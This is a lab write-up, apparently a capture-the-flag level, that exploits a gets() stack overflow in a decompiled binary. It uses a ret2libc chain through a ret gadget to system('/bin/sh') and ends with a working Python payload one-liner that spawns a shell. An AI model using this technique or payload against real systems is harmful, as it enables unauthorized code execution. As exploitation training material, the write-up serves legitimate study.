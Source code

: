 Here is the decompiled binary :

```c
void p(void)

{
  uint unaff_retaddr;
  char local_50 [76];
  
  fflush(stdout);
  gets(local_50);
  if ((unaff_retaddr & 0xb0000000) == 0xb0000000) {
    printf("(%p)\n",unaff_retaddr);
                    /* WARNING: Subroutine does not return */
    _exit(1);
  }
  puts(local_50);
  strdup(local_50);
  return;
}

void main(void)

{
  p();
  return;
}
```

We can perform a kind of ret2libc attack on this code (https://shellblade.net/files/docs/ret2libc.pdf)

Since there is a if checking that the return address is not coming from 0xb... memory, we bypass this protection by overflowing to a ret instruction (either main func or p func) and since a ret instruction pops the next address and jumps there, we follow it by system address with the correct parameter.

Our payload should be like this : 

```
[ padding ] + [ addr of a ret ] + [ addr of system() ] + [ 4 bytes padding ] + [ addr of "/bin/sh" ]
```

To find those address we can do in gdb :

`gdb ./level2` then `b main` then run the program, and then `p system/exit`
for ret address of p() : disas p and look at the address of the instruction ret.
for the string "/bin/sh", we can find it inside libc :

`info proc mappings` then find the start address and the end address of libc and then this command will find the string if it is inside the binary :

`find start_addr, end_addr, "/bin/sh"`

So we have all the elements for the payload :

offset : 80
ret address : 0x0804853e <+106>: ret
system() address : $1 = {<text variable, no debug info>} 0xb7e6b060 <system>
exit() address : $2 = {<text variable, no debug info>} 0xb7e5ebe0 <exit>
`"/bin/sh"` : (gdb) 0xb7f8cc58

Our payload will look like this :
`(python -c 'print("\x90"* 80  + "\x4b\x85\x04\x08" + "\x60\xb0\xe6\xb7" + "\x90\x90\x90\x90" + "\x58\xcc\xf8\xb7")'; cat)`
And we have a shell.
